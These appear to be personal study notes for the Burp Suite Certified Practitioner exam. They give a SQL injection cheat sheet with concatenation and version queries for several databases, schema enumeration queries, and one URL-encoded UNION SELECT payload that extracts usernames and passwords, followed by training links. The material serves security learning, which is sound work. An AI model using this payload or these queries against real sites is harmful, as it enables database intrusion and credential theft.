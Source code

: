 # Notes-Burp-Suite-Certification-Practitioner-BSCP-
Notes for the Burp Suite Certification

# SQL Injection 

### String concatenation
You can concatenate together multiple strings to make a single string.
```
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
### Querying the database type and version

```
Database type	Query
Microsoft, MySQL	SELECT @@version
Oracle	SELECT * FROM v$version
PostgreSQL	SELECT version()
```

### Listing the contents of the database
to list the tables in the database: ```SELECT table_name FROM information_schema.tables```

to list the columns in individual tables:: ```SELECT column_name FROM information_schema.columns WHERE table_name = 'Users'```




Pets%20%27%20union%20select%20null,%20username_igiesp%20||%20%27-%27%20||%20%20password_hpvetj%20from%20users_pvuawd--%20-

# Interesting Resources 

https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/
https://portswigger.net/web-security/certification/how-to-prepare
https://portswigger.net/research/articles
https://www.youtube.com/@PortSwiggerTV/playlists

# Live Practices
https://www.youtube.com/watch?v=yC0F05oggTE
https://www.youtube.com/watch?v=dGsCA1N1BK0
